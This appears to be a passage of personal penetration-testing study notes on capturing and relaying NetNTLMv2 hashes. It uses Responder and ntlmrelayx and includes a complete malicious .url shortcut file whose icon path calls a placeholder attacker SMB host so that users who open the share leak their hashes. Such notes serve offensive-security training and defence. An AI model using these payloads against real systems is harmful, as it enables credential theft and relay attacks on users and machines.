 ![Screenshot of NetNTLMv2 3](./images/netntlm-3.png)
	        - Client
		        - Try to access a non-existing share on target machine → My Computer search bar → `\\<Attacker-IP>\nonexisting`
		        - Alternative -> `PS> \\<Attacker-IP>\nonexisting`
                - An Event occured get caught on responder. Responder will capture this event, pass it to ntlmrelayx, which will relay the credentials for local admin account on target machine from SAM.
    - Technique 2
	    - Also, if we have write permission on smb share, we can upload file to it and then might get some event on responder
        - `Kali> sudo responder –I tun0 -v`
        - Create file - `offsec.url` - Enumerate active user (%USERNAME% - gives current username)
		```
		[InternetShortcut]
		URL=anything
		WorkingDirectory=anything
		IconFile=\\<Responder-IP>\%USERNAME%.icon
		IconIndex=1
		```
		- `smb> put offsec.url`
        - An Event occurs on responder. Responder will capture this event and give us NetNTLMv2 hash credentials.